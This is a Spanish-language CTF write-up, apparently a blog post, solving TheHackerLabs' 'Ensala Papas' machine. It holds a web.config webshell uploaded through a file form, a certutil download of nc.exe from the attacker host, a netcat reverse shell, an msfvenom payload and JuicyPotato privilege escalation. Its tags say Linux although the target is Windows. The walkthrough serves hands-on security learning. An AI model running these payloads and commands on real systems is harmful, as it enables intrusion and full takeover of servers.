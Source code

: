 ```yaml
---
title: "TheHackerLabs - Principiante : [Ensala Papas]"
date: 2024-07-02 10:00:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
tags: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
image: /img/posts/CTF/ensala/logo.png
---
```


## Introducción

Hoy vamos a realizar el desafío de la máquina CTF llamada **[Ensala Papas](https://thehackerslabs.com/ensala-papas/)** en TheHackerLabs. Este es un reto de nivel principiante que opera bajo un sistema Linux. **Tengo un aprecio especial por esta máquina** ya que me enfrenté a muchos obstáculos durante el proceso y logré superarlos con éxito.

A lo largo de este viaje, recibí **consejos valiosos de la comunidad**, y justo cuando estaba a punto de darla por perdida, decidí darme un margen de dos días. Después de este breve descanso, me puse de nuevo con el desafío y logré resolverlo. Por eso, este writeup me hace especial ilusión compartirlo.

---

## Entorno inicial

### Escaneo de red con `arp-scan`

Para iniciar nuestro análisis, ejecutamos el siguiente comando en la terminal:

```bash
arp-scan -I enp0s17 --localnet
```

**Resultados del escaneo:**

```
192.168.1.49    08:00:27:f4:9b:0a    (Unknown)
```

Identificamos un host activo con la IP `192.168.1.49`. Procedimos a escanearlo con `nmap`.

---

## Enumeración

### Escaneo detallado con `nmap`

Utilizamos un script personalizado para escanear la IP obtenida:

```bash
sudo ./escaneo.sh 192.168.1.49
```

**Resultados:**

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 7.5
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds
```

El servidor HTTP ejecuta IIS 7.5, lo que podría ser vulnerable. Exploramos el puerto 80 más a fondo.

---

### Exploración con `gobuster`

Para buscar directorios y archivos ocultos, usamos el siguiente comando:

```bash
gobuster dir -u http://192.168.1.49 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x asp,aspx,html,php
```

**Resultados:**
- `/zoc.aspx` (200 OK): Un formulario de subida de archivos.
- `/Subiditosdetono/` (403 Forbidden): Directorio restringido.

Exploramos `/zoc.aspx` y descubrimos un formulario para cargar archivos.

---

### Análisis del formulario `/zoc.aspx`

El formulario permite subir archivos. Usamos `HackTricks` para investigar posibles métodos de explotación. Probamos subir un archivo `web.config` malicioso diseñado para obtener una webshell.

```xml
<?xml version="1.0"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="shell" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="cmd.exe" resourceType="Unspecified" />
    </handlers>
  </system.webServer>
</configuration>
```

---

### Ejecución del webshell

El archivo se subió exitosamente y conseguimos acceder a la webshell en el directorio restringido:

```bash
http://192.168.1.49/Subiditosdetono/web.config
```

Desde aquí, realizamos comandos básicos para enumerar el sistema y validamos conectividad con nuestra máquina:

```bash
ping -n 2 192.168.1.47
```

---

## Explotación inicial

### Transferencia de herramientas

Para facilitar la explotación, transferimos `nc.exe` al servidor. Usamos `certutil` para descargar el archivo desde nuestro sistema local:

```bash
certutil -split -urlcache -f http://192.168.1.47/nc.exe c:\temp\nc.exe
```

---

### Establecimiento de una reverse shell

Con `nc.exe` transferido, configuramos un listener en nuestra máquina:

```bash
nc -lnvp 443
```

Desde el servidor comprometido, ejecutamos:

```bash
c:\temp\nc.exe -e cmd 192.168.1.47 443
```

Esto nos permitió acceder al servidor como un usuario básico.

---

## Escalada de privilegios

### Preparación del entorno

Generamos un payload con `msfvenom` para usar con `JuicyPotato`:

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.47 LPORT=8899 -f exe -o shell.exe
```

Transferimos tanto el payload como `JuicyPotato.exe` al servidor.

---

### Uso de `JuicyPotato`

Ejecutamos el siguiente comando para escalar privilegios:

```bash
JuicyPotato.exe -l 443 -t * -p shell.exe -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

---

## Root conseguido

Finalmente, obtuvimos acceso como administrador y capturamos la flag:

```bash
c:\Users\Administrador\Desktop>type root.txt
j**34**f**3*****************************
```

---

## Conclusiones

Este CTF fue un excelente reto para practicar técnicas de enumeración y explotación en un entorno Windows. Aunque parecía sencillo al principio, las múltiples capas de seguridad lo hicieron desafiante.

**Lecciones aprendidas:**
1. La importancia de la paciencia y la perseverancia.
2. La utilidad de herramientas como `HackTricks` y `PayloadsAllTheThings`.
3. El valor de tomar descansos para volver con una mente más clara.

Espero que este writeup inspire a otros a intentar desafíos similares. **Recuerda visitar:** [Ensala Papas](https://thehackerslabs.com/ensala-papas/) para probarlo por ti mismo.
